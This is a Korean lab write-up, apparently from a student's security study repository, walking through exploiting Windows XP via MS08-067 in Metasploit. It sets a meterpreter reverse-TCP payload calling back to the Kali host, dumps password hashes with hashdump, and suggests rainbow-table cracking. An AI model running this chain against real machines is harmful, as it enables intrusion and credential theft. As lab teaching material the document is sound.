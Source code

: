 # Window Xp에서 Pass the hash 공격

## 네트워크 동작확인 1
처음으로 우리가 할일은 Kali와 Window Xp가 연결되어있는지 확인하는 것이다.
이는 아래의 사진과 같이 연결 확인이 가능하다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/%EB%84%A4%ED%8A%B8%EC%9B%8C%ED%81%AC%20%EC%97%B0%EA%B2%B0%20%ED%99%95%EC%9D%B8.png)

## 네트워크 동작확인 2
원격접속에 필요한 포트들이 열렸는지 확인하기 위해 다음과 같은 방법을 통해 확인한다.
**nmap (WindowXp)

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/%EB%84%A4%ED%8A%B8%EC%9B%8C%ED%81%AC%20%EC%97%B0%EA%B2%B0%20%ED%99%95%EC%9D%B82.png)

우리는 위 사진을 통해 원격접속에 필요한 포트들이 모두 열려있음을 알 수 있다.

## NMAP?
NMAP은 port Scanning 툴로써 Host나 Network를 Scanning할 때 아주 유용한 시스템 보안툴인과 동시에, 해커에게 강력한 해킹툴로서 사용할 수 있는 도구이다.
NMAP은 기존의 Port ScanningTool에 비해 다양한 옵션과 방화벽 안쪽의 네트워크도 스캔할 수 있는 강력한 기능이 있다.
</br>

## Window XP에서 Password 수집하기

**msfconsole 을 Kali의 명령창에 입력한다.

이후 우리는 Window XP의 취약점인 MS08-067을 이전의 실습을 통해 알고 있다.
이를 통해 우리는 password를 얻어낼 것이다.

**search ms08-067
**use exploit/windows/smb/ms08_067_netapi

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/Window%20Xp%EC%97%90%EC%84%9C%20Password%EC%A0%95%EB%B3%B4%20%EC%88%98%EC%A7%91%201.png)

**set payload windows/meterpreter/reverse_tcp_allports
**show options

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/Window%20Xp%EC%97%90%EC%84%9C%20Password%EC%A0%95%EB%B3%B4%20%EC%88%98%EC%A7%91%202.png)

**set RHOST (WindowXp의 IP)
**set LHOST (Kali의 IP)

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/Window%20Xp%EC%97%90%EC%84%9C%20Password%EC%A0%95%EB%B3%B4%20%EC%88%98%EC%A7%91%203.png)

**run

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/Window%20Xp%EC%97%90%EC%84%9C%20Password%EC%A0%95%EB%B3%B4%20%EC%88%98%EC%A7%91%204.png)

**sysinfo
**hashdump\

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/Window%20Xp%EC%97%90%EC%84%9C%20Password%EC%A0%95%EB%B3%B4%20%EC%88%98%EC%A7%91%20%EC%99%84%EB%A3%8C.png)

### 이를 통한 공격방법은?
우리는 MS08-067을 통해  windowXp의 Password Hash를 구할 수  있게 되었다.
그렇다면 이것이 과연 무슨 역활을 하는가에 대해 생각하면 다음과 같이 이를 활용해서 공격을 할 수 있다.
그것은 바로 raindow Hashtable attack을 통해 취약점을 통해 구한 hash의 값에 맞는 원래의 Pw를 찾아내는 공격을 통해 사용자의 Password를 알아 낼 수 있다.
